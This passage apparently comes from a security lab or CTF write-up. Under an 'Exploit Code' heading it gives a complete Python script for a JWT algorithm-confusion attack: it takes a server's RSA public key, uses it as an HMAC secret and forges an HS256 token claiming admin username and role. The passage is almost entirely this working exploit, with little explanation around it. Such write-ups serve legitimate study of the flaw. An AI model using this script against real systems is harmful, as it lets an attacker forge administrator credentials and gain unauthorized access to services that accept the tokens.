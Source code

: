 ![](Pasted%20image%2020250211153407.png)

### Exploit Code
Another option is via a Python code:
```python
import jwt
import base64
from cryptography.hazmat.primitives import serialization

# The public key
PUBLIC_KEY = '''-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAzdk1zKekmoidGS78NWTI
hE88NW+jXqyMpsdxrmhEwBiFQHr1cvB5qXb7GecRSkRrN/w8SaeZJPDUsuKBULiu
qfmScKEmcdrSyI152KPCiho7pNTC8ijkFyEGyTgUNQyMWRnDVCOyAGXcsD44hKjU
WEfYiVcicgIpKNbV6tuIsr7Kl4KqYa2qSiolm6uruxc7MXin4+HijoVa4qmlrT5N
7ULdgFDedI8XHuQfyUyg2858kWwsWlOfe++F+fbBc2Omolui5GcR6tw6p6453Hcm
UUIFvxVsywxTGqld/ENC0W3gMChkKqIsXEQ7kEK7TQgRBLQQP1/Mfmos/kcOADVt
8wIDAQAB
-----END PUBLIC KEY-----'''

# Payload for our forged token
payload = {
    "username": "admin",
    "role": "admin",
    "iat": 1738930304
}

def get_key_bytes():
    # Load the public key
    key = serialization.load_pem_public_key(PUBLIC_KEY.encode())
    
    # Get the raw bytes of the public key
    raw_bytes = key.public_bytes(
        encoding=serialization.Encoding.DER,
        format=serialization.PublicFormat.SubjectPublicKeyInfo
    )
    return raw_bytes

def create_forged_token():
    try:
        # Get the raw bytes to use as secret
        key_bytes = get_key_bytes()
        
        # Create the forged token
        forged_token = jwt.encode(
            payload=payload,
            key=key_bytes,
            algorithm='HS256'
        )
        return forged_token
    except Exception as e:
        print(f"Error creating token: {e}")
        return None

def main():
    # Create the forged token
    forged = create_forged_token()
    if forged:
        print(forged)

if __name__ == "__main__":
    main()
```
